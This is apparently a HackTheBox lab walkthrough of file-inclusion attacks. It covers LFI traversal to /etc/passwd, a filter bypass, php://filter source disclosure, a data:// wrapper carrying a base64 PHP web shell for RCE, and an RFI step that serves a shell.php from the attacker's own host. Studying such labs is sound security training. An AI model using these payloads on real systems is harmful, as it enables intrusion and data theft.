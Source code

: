 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:42908/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://94.237.59.180:42908/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>


![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
Flowoing HTB Writeup first we create a basic php shell <code>echo '<?php system($_GET["cmd"]); ?>' > shell.php</code> then we start a python server <code>sudo python3 -m http.server <LISTENING_PORT></code> back in the web page we can use this url <code>http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id</code> to pass commands. After going trough directories we can easelly find our flag.
